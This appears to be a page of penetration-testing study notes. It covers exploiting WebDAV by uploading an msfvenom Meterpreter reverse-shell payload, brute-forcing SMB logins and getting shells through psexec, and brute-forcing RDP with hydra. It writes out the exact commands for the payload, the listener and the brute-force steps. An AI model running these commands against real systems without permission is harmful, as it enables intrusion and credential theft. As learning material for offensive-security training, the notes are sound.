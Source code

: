 
### Webdav with metasploit

- `nmap -sV -p 80 --script=http-enum <target>`
- Generate paylaod `msfvenom - p windows/meterpreter/reverse_tcp LHOST=<host_ip> LPORT=<host_port> -f asp > shell.asp`
- `cadaver <target/webdav>` -> put payload into website
- Set up listener -> open `msfconsole`
- `use multi/handler`  -> `set payload windows/meterpreter/reverse_tcp` -> set lhost and lport -> run

Other exploit method
- Use module exploit `iis_webdav_upload_asp` -> set `HttpUsername` and `HttpPassowrd`
- set `PATH`

### SMB with Psexec

SMB (Samba in linux) protocol utilizes two levels of authentication
- User Authentication - Username + password
- Share authentication - Password share

![SMB auth](./Assets/image_9.png)

PsExec is lightweight telnet develop by MS. PsExec authentication is performed via SMB (usually using user Administrator)

Common exploit is brute force SMB.

- Use module `smb_login` -> Set `RHOSTS` `SMB domain` (if needed) 
- Set `USER_FILE` () and `PASS_FILE` -> Run to get username and password
- `psexec.py user@ip cmd.exe` to setup remote sessions

Other method:
- Use exploit module `smb/psexec` to setup remote sessions.

### RDP

- Use module `rdp_scanner` Scan for port running RDP
- To obtain user/password, use `hydra`
  - `hydra -L <user_list> -P <password_list> rdp://<target> -s <port>`
  - Reduce brute force speed by `-t <number>` default `16`
- Use `xfreerdp /u:<user> /p:<pass> /v:<target_ip>:<port>`